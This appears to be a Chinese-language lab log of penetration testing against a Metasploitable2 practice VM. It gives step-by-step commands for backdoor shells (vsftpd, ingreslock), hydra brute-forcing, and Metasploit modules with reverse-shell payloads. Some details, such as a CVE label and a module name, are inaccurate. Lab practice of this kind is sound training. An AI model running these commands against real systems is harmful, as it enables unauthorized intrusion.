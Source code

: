 # 704日志
[toc]
## Metasploitable2靶机漏洞详解:
靶机IP：192.168.209.153
kali: 192.168.209.129
扫描结果：
![saomiao](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20093126.png)

漏洞清单：
| 端口/服务 | 端口/服务 |
| :------: | :------: |
| 21 / ftp弱口令(vsf234笑脸漏洞) |	445 / 已测试 |
| 22 / ssh弱口令 |	512 / rlogin Rlogin 后门漏洞|
| 23 /telnet弱口令 |	513 / rlogin Rlogin 后门漏洞 |
| 25 -smtp邮件服务 |	514 / rlogin Rlogin 后门漏洞|
| 53 -BIND拒绝服务漏洞 |	1099 / java_rmi_server |
| 80 - php_cgi |	1524 msfable 后门 |
| 111 -rpcbind漏洞 |	2049 / NFS共享漏洞 |
| 139 / smb |	2121 - |
| 3306 / 空密码 |	5900 / VNC |
| 5432 / postgresql |	6667 / unreal_ircd  |
| 6000 -x服务 |		8009|
| 6697 / unreal_ircd | 8180/tomcat5.5 |


### 21笑脸漏洞
有两种方法，一种是瑞士军刀,一种使用msfconsole
#### 第一种瑞士军刀nc
kali输入
```bash
ftp 192.168.209.153 
#输入root:)  密码随意
#就开启6200端口
#另外开一个终端输入
nc 192.168.209.153 6200
whoami
root
#获取root权限
```
![smile](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20093700.png)
#### 第二种msfconsole
kali开启msfconsole
```bash
search vsf #搜索笑脸漏洞
use 0 #选择第0个攻击载荷
set rhosts 192.168.209.153 #设置攻击目标地址
show payloads #展示攻击载荷
use 0 #使用第0个攻击
run #执行载荷
```
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20100040.png)
### 22ssh服务/23telnet弱口令
使用九头蛇或者msf进行爆破
```bash
hydra -L user.txt -P passwd.txt -o ssh.txt -vV -t ip  ssh -s 22   
-L 指定用户字典文件 
-P 指定密码字典文件  
-o 把成功的输出到ssh.txt文件 
-vV 显示详细信息  
-s 指定其他端口 如果要修改默认22端口，可以使用 -s 参数
#小写为固定用户名或者密码
```
(ps:暴力破解取决于密码本，在此不做演示)
### 111-rpcbind漏洞
该漏洞可使攻击者在远程rpcbind绑定主机上分配任意大小的内存(每次攻击最高可达4GB)，除非进程崩溃，或者管理员挂起/重启rpcbind服务，否则该内存不会被释放。
使用metasploit(msf)验证漏洞
```bash
use auxiliary/scanner/misc/sunrpc_portmapper
show options
set RHOSTS  192.168.26.28
run
```
```bash
search sunrpc
```
(ps:危害大就不演示了)
### 80Apache(PHP-CGI查询字符串参数漏洞)
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20102738.png)
server api cgi 猜测有php-cgi漏洞

使用msf
```bash
search php_cgi
use 0
set rhosts 192.168.209.153
```
获取shell权限
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20103703.png)

### 139/445 Smb服务漏洞
```bash
search smb
use 8
set rhosts 192.168.209.153
set payload cmd/unix/reverse
run
```
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20105433.png)
### 1099 Java反序列化命令执行漏洞(cve-2011-3556)
```bash
search java_rmi
use 1
set rhosts 192.168.209.153
set payload java/meterpreter/reverse_tcp
run
```
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20111400.png)
### 1524 “ingreslock”后门
终端输入：
```bash
telnet 192.168.209.153 1524
```
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20111811.png)
### 3306 MySQL 爆破&空密码
(ps:不演示)
```bash
mysql -h 192.168.209.153 -P 3306 -u root -p
#-p+密码
```
### 5432端口postgresq爆破
```bash
search postgres_login
use 0
set rhosts 192.168.209.153
run
```
使用kali进行进攻postgresql
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-03%20175357.png)
如图获取账号与密码
另开终端连接
```bash
psql -h 192.168.209.153 -p 5432 -d postgres -U postgres
```
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-03%20180127.png)
### 5900端口vnc服务爆破
```bash
search vuc_login
set rhosts 192.168.209.153
```
获取账号密码，账号为空密码password
Successful: :password
使用vnc连接
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20142238.png)

### 6697 IRC服务后门漏洞(unreal_ircd)
```bash
search unreal_ircd
use 0
set rhosts 192.168.209.153
run
```
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-04%20150247.png)

### 8180/Apache Tomcat/5.5后门(CVE-2019-0232)
```bash
192.168.209.153/admin #默认密码tomcat/tomcat
```